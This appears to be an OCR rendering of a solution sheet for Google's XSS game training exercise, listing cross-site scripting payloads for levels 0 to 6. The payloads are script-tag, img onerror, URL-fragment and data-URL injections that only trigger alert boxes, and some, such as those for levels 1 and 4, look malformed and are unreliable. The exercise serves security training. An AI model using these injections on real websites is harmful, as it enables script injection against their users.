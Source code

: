 
**Level0**

``` javascript
<script>
    alert("Hello, this is a JavaScript alert!");
</script>
```

**Level1**

``` html
<div>
    Welcome!<onerror="javascript:alert('This is an injected alert!')">
</div>
```

**Level2**

``` html
app?input=<img%20src=x%20onerror=alert('This%20is%20an%20injected%20alert!')>
```

**Level3**

``` html
https://xss-game.appspot.com/level3/frame#2'/><script>alert(1)</script>'/><script>alert(1)</script>
```

**Level4**

```html
?timer=1')%alert('1

```

**Level5**

``` html
https://xss-game.appspot.com/level5/frame/signup?next=<script>alert(1)</script>'/><script>alert(1)</script>
```

**Level6**

``` html
https://xss-game.appspot.com/level6/frame#data:plain,alert('xss')
```